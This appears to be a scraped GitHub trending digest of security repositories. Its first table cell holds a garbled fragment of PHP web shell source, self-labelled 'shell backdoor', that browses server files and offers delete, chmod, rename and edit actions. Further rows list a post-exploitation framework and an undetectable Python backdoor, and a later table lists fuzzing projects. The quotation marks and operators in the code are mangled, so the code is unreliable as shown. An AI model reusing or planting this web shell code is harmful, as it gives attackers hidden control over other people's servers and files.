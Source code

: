 %<tr class=%first%><td></td><td></td><td></td><td></td></tr>%; foreach($scandir as $file){ if(!is_file(%$path/$file%)) continue; $size = filesize(%$path/$file%)/1024; $size = round($size,3); if($size >= 1024){ $size = round($size/1024,2).% MB%; }else{ $size = $size.% KB%; }  echo %<tr> <td><a href=\%?filesrc=$path/$file&path=$path\%>$file</a></td> <td><center>%.$size.%</center></td> <td><center>%; if(is_writable(%$path/$file%)) echo %<font color=%green%>%; elseif(!is_readable(%$path/$file%)) echo %<font color=%red%>%; echo perms(%$path/$file%); if(is_writable(%$path/$file%) ,, !is_readable(%$path/$file%)) echo %</font>%; echo %</center></td> <td><center><form method=\%POST\% action=\%?option&path=$path\%> <select name=\%opt\%> <option value=\%\%></option> <option value=\%delete\%>Delete</option> <option value=\%chmod\%>Chmod</option> <option value=\%rename\%>Rename</option> <option value=\%edit\%>Edit</option> </select> <input type=\%hidden\% name=\%type\% value=\%file\%> <input type=\%hidden\% name=\%name\% value=\%$file\%> <input type=\%hidden\% name=\%path\% value=\%$path/$file\%> <input type=\%submit\% value=\%>\% /> </form></center></td> </tr>%; } echo %</table> </div>%; } echo %<br /><font color=%red%></font><font color=%red%>shell backdoor</font> <center>@Copyright 2020 , IG: <a href=%https://instagram.com/midnight_coders_team?igshid=1bv58zw6nsgjs%>Midnight Coders Team</a></center> <center>AUTHOR: <a href=%https://instagram.com/gifarirahman_exp?igshid=zrxa2b35pzxp%>G1F412</a></center> </BODY> </HTML>%; function perms($file){ $perms = fileperms($file);  if (($perms & 0xC000) == 0xC000) { // Socket $info = %s%; } elseif (($perms & 0xA000) == 0xA000) { // Symbolic Link $info = %l%; } elseif (($perms & 0x8000) == 0x8000) { // Regular $info = %-%; } elseif (($perms & 0x6000) == 0x6000) { // Block special $info = %b%; } elseif (($perms & 0x4000) == 0x4000) { // Directory $info = %d%; } elseif (($perms & 0x2000) == 0x2000) { // Character special $info = %c%; } elseif (($perms & 0x1000) == 0x1000) { // FIFO pipe $info = %p%; } else { // Unknown $info = %u%; }  // Owner $info .= (($perms & 0x0100) ? %r% : %-%); $info .= (($perms & 0x0080) ? %w% : %-%); $info .= (($perms & 0x0040) ? (($perms & 0x0800) ? %s% : %x% ) : (($perms & 0x0800) ? %S% : %-%));  // Group $info .= (($perms & 0x0020) ? %r% : %-%); $info .= (($perms & 0x0010) ? %w% : %-%); $info .= (($perms & 0x0008) ? (($perms & 0x0400) ? %s% : %x% ) : (($perms & 0x0400) ? %S% : %-%));  // World $info .= (($perms & 0x0004) ? %r% : %-%); $info .= (($perms & 0x0002) ? %w% : %-%); $info .= (($perms & 0x0001) ? (($perms & 0x0200) ? %t% : %x% ) : (($perms & 0x0200) ? %T% : %-%));  return $info; } ?> | https://github.com/MIDNIGHT-CODERS-TEAM/file-MCT.php | 0 | 0| 
| 20201111T11:52:50Z | Unicorn Framework is an iOS, macOS and Linux post-exploitation framework that using one line command and powerful python payload attempts to spawn a command line session with a lot of features such as downloading files, uploading files, getting system information and etc. | https://github.com/EntySec/unicorn | 8 | 3| 
| 20201111T11:21:11Z | FUD cross-platform python2 backdoor | https://github.com/7h3w4lk3r/pyback | 9 | 4| 


# fuzz on Github 推荐
| ts | title | url | stars | forks| 
| --- | --- | --- | --- | ---| 
| 20201111T23:24:47Z | OSS-Fuzz - continuous fuzzing of open source software. | https://github.com/google/oss-fuzz | 5644 | 1112| 
| 20201111T21:52:17Z | Experimental projects | https://github.com/tannmatter/fuzzy-happiness | 0 | 0| 
| 20201111T21:20:07Z | Repo for fuzzing basic repository with travis CI | https://github.com/Pascal-0x90/Travis-Fuzz-Basic | 0 | 0| 
| 20201111T20:58:54Z | Web Security Dictionary | https://github.com/3had0w/Fuzzing-Dicts | 146 | 66| 
| 20201111T20:56:20Z | Null | https://github.com/googleinterns/hw-fuzzing | 2 | 0| 
| 20201111T20:42:14Z | A tale into the system security, fuzzing and vulnerability research | https://github.com/Microsvuln/Microsvuln.github.io | 0 | 0| 
| 20201111T20:36:14Z | Software for fuzzing, used on web application pentestings. | https://github.com/NESCAU-UFLA/FuzzyingTool | 0 | 0| 
| 20201111T20:20:38Z | Null | https://github.com/lazygrey/fuzzing_with_cmaes | 5 | 1| 
| 20201111T20:19:47Z | A differential fuzzer for x86 decoders | https://github.com/trailofbits/mishegos | 119 | 17| 
| 20201111T20:19:39Z | Sometimes we want to fuzz a set of domain URLs with a common wordlist. Fuzzing them one by one is a tedious task and not to mention the false positives we obtain in those results. To solve this problem I created Lazy FuzzZ.  | https://github.com/th3hack3rwiz/Lazy-FuzzZ | 0 | 0| 



# 日更新程序
